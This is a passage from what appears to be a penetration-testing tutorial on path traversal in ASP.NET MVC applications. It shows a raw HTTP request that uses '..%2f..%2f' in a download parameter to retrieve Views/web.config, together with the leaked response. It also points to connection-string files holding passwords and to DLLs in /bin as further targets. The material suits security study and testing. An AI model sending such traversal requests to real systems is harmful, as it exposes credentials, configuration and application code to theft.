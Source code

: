 ```markup
<%@ Application Codebehind="Global.asax.cs" Inherits="WebApplication1.MvcApplication" Language="C#" %>
```

And **/connectionstrings.config**

**Note: this file contains passwords!**

```markup
<connectionStrings>
  <add name="DefaultConnection" connectionString="Data Source=(LocalDb)\MSSQLLocalDB;AttachDbFilename [...]" providerName="System.Data.SqlClient" />
</connectionStrings>
```

**Namespaces**

In addition, .Net MVC applications are structured to define **other web.config files**, having the aim to include any declaration for specific namespaces for each set of viewpages, relieving developers to declare “@using” namespaces in every file.

```markup
GET /download_page?id=..%2f..%2fViews/web.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0"?>
<configuration>
  <configSections>
    <sectionGroup name="system.web.webPages.razor" type="System.Web.WebPages.Razor.Configuration.RazorWebSectionGroup, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral">
    <section name="host" type="System.Web.WebPages.Razor.Configuration.HostSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
    <section name="pages" type="System.Web.WebPages.Razor.Configuration.RazorPagesSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
    </sectionGroup>
  </configSections>
<system.web.webPages.razor><host factoryType="System.Web.Mvc.MvcWebRazorHostFactory, System.Web.Mvc, Version=5.2.3.0, Culture=neutral" /><pages pageBaseType="System.Web.Mvc.WebViewPage">
  <namespaces>
    <add namespace="System.Web.Mvc" />
    <add namespace="System.Web.Mvc.Ajax" />
    <add namespace="System.Web.Mvc.Html" />
    <add namespace="System.Web.Optimization"/>
    <add namespace="System.Web.Routing" />
    <add namespace="WebApplication1" />
```

**Downloading DLLs**

From a very previous response, the declaration of a **custom namespace** (since other namespaces are defaults) suggests that a DLL called "**WebApplication1**" is present in the /bin directory.
